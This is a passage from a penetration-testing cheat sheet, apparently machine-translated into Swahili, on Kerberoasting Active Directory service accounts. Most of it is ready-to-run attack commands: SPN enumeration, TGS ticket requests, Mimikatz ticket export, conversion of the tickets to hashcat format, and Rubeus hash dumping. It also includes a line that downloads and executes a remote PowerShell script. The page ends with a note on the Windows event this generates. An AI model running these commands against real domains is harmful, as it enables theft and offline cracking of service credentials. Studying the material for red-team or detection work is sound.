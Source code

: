 #### Windows

- **Tathmini watumiaji wanaoweza kuhusishwa na Kerberoast**
```powershell
# Get Kerberoastable users
setspn.exe -Q */* #This is a built-in binary. Focus on user accounts
Get-NetUser -SPN | select serviceprincipalname #Powerview
.\Rubeus.exe kerberoast /stats
```
- **Technique 1: Omba TGS na uondoe kutoka kwa kumbukumbu**
```powershell
#Get TGS in memory from a single user
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName" #Example: MSSQLSvc/mgmt.domain.local

#Get TGSs for ALL kerberoastable accounts (PCs included, not really smart)
setspn.exe -T DOMAIN_NAME.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

#List kerberos tickets in memory
klist

# Extract them from memory
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder

# Transform kirbi ticket to john
python2.7 kirbi2john.py sqldev.kirbi
# Transform john to hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
- **Technique 2: Zana za kiotomatiki**
```bash
# Powerview: Get Kerberoast hash of a user
Request-SPNTicket -SPN "<SPN>" -Format Hashcat #Using PowerView Ex: MSSQLSvc/mgmt.domain.local
# Powerview: Get all Kerberoast hashes
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins

# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
> [!WARNING]
> Wakati TGS inapoombwa, tukio la Windows `4769 - Tiketi ya huduma ya Kerberos iliombwa` inaundwa.
